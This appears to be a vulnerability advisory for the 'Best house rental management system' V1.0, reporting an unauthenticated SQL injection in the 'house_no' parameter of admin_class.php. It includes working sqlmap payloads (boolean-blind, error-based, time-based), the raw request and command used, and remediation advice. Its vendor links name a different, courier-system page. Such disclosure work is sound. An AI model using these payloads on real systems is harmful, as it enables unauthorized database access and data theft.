



# Best house rental management system V1.0 admin_class.php save_house SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Best house rental management system

## Vendor Homepage

- [Best house rental management system project in php | SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- s1ain

## VERSION(S)

- V1.0

## Software Link

- [Best house rental management system project in php | SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in function "save_house" of the file "/admin_class.php" of the 'Best house rental management system' project. The reason for this issue is that attackers inject malicious code from the parameter "house_no" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Best house rental management system", discovered a critical SQL injection vulnerability in function "save_house" of the file "/admin_class.php". This vulnerability stems from insufficient user input validation of the 'house_no' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

  

# **Code Analysis**



# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- boolean-based blind
- time-based blind
- error-based

## Vulnerability location:

- 'house_no' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: house_no=1' AND 5625=5625 AND 'hxmk'='hxmk&description=1&category_id=1&price=1&id=1
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: house_no=1' AND (SELECT 4305 FROM(SELECT COUNT(*),CONCAT(0x716b7a7871,(SELECT (ELT(4305=4305,1))),0x7176716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'kLqo'='kLqo&description=1&category_id=1&price=1&id=1
    Vector: AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: house_no=1' AND (SELECT 1702 FROM (SELECT(SLEEP(5)))MTII) AND 'ePUh'='ePUh&description=1&category_id=1&price=1&id=1
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /ajax.php?action=save_house HTTP/1.1
Host: 10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

house_no=1*&description=1&category_id=1&price=1&id=1
```

# Attack results



# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.